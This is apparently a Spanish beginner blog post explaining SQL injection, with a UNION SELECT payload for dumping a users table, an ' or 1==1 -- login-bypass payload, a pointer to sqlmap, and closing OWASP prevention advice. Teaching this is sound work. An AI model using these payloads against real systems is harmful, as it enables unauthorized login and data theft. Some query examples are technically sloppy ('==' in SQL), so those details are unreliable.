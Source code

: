 ```yaml
---
layout: post
category: red
tags: SQL SQLi Penstesting OWASP
author: RedDev
SQL Injection For Dummies: Bypasseando el Login
---
```


## ¿Qué es SQL Injection?
SQL Injection es el nombre que se le da a las diversas técnicas utilizadas para dumpear o aprovechar vulnerabilidades relacionadas con bases de datos sql, ya sea por una mala gestión de ciertos carácteres especiales o por una mala consulta a la base de datos. 
Podemos considerar estas técnicas como las madres de otras técnicas como NoSQLi.

## ¿Cómo puedo realizar estas técnicas?

Primero debemos comprender como funcionan las consultas que se realizan desde una app web hacia su base de datos.

De lado del cliente observaremos un formulario que tendrá uno o más inputs. Pero en el backend os encontraremos un programa que recoge lo introducido en el input y lo inserta en una consulta SQL.Por Ejemplo:

<form >
  <div><input type="text" name="q" id="lola" title="At least 3 characters" required></div>
<input type="submit">
</form>

```html
<form >
  <div><input type="text" name="q" id="lola" title="At least 3 characters" required></div>
<input type="submit">
</form>
```
Aquí tenemos un formulario que tiene id lola, por lo que imaginemos que es un buscador de usuarios por ejemplo. 
En el backend habría una query hacía la base de datos de este tipo:
```SQL
SELECT (lola) FROM USERS;
```
Si nosotros insertaramos '*' por ejemplo, la consulta quedaría de esta forma:

```SQL
SELECT * FROM USERS;
```
Es decir nos dumpearia la tabla USERS, pero hasta aquí no hay nada interesante, ya que el formulario nos devuelve información de los usuarios directamente.


## Pongamonos el BlackHat
Ahora imaginemos que lo que nos devuelve es información de un coche en una base de datos, entoneces nuestra query quedaría de esta forma:
```SQL
SELECT * FROM CARS WHERE NOMBRE LIKE '(lola)';
```
Ahora lo que nos interesa es sacar información de los usuarios, aunque estamos haciendo consultas a admin, por lo que utilizaremos carácteres especiales como '--'.
Con esto podríamos injectar el siguiente "payload":
lola -> [' UNION SELECT * FROM USERS --]
```SQL
SELECT * FROM CARS WHERE NOMBRE LIKE ' ' UNION SELECT * FROM USERS -- ';
```
Con el operador UNION, nos unira los resultados de los dos selects, ademas es importante insertando el cierre de comillas, nos saldremos del string y podremos realizar la otra query además los dos guiones en SQL comentan el resto de la línea.
Y de esta forma, desde un input que consulta coches podrémos dumpear la tabla de usuarios. Pero...¿Como podemos usar esto para por ejemplo bypasear un login?


## ByPass al login 

Lo primero que hay que entender es como funciona este tipo de logins:
<form >
  Username
  <input type="text" id="lola">
  Password
  <input type="password" name="pass" id="pass" >
<input type="submit">
</form>
```html
<form >
  <div><input type="text"  id="lola" >
  ><input type="password" name="pass" id="pass"></div>
<input type="submit">
</form>
```

En el backend nos encontraríamos una query de este estilo:
```SQL
SELECT id,Nombre FROM USERS WHERE USERNAME LIKE '(lola)' AND PASSWORD LIKE '(pass)'
```
En este caso nuestro payload tendría este estilo:
lola -> [' or 1==1 -- ]
Por lo que quedaría así nuestra query:
```SQL
SELECT id,Nombre FROM USERS WHERE USERNAME LIKE '' or 1==1 -- ' AND PASSWORD LIKE '(pass)'
```
Esto lo que nos va a generar es una query que su where da siempre positivo, por lo que nos dará la primera cuenta registrada, la cual suele ser la id = 0 o 1 que suele ser el administrados de la web, y nos loguea como el.

![image](https://github.com/reycotallo98/reycotallo98.github.io/assets/93315382/8dca80f1-b73b-44cc-9031-5beca12682aa)

## Eres un Script Kiddle y no te apetece hacerlo a mano?

Pues he aquí la solucion [SQLMap](https://sqlmap.org/), esta herramienta, con los input de la web, automatiza el proceso de SQLInjection pudiendo incluso sacarte directamente una shell con control sobre el servidor que aloja la web.


### ¿Cómo puedo evitar esto en mi web?
 Segun la organización [OWASP](https://owasp.org/www-community/attacks/SQL_Injection), se recomienda:
 - Usar Prepared Statements con querys parametrizadas.
 - Usar constructores con procesos de alamacenamiento adecuados
 - Validacion de los inputs
 
 Para más información -> [Cheatsheet OWASP](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
 
 

